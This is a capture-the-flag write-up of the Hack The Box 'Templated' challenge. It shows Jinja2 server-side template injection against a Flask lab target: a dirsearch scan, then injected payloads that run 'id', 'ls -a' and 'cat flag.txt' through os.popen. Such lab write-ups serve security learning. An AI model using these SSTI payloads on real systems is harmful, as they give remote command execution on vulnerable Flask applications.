 [Home](https://elliottdg.github.io/Cyber-Write-Ups)

# Templated

{% raw %}
This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.

![front page](./frontpage.PNG)

This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page I could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty interesting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.

![Response to edited url](./URL-change-response.PNG)

Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
![Response to edited url second time](./URL-Change-Response2.PNG)

looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normally is.
{% endraw %}
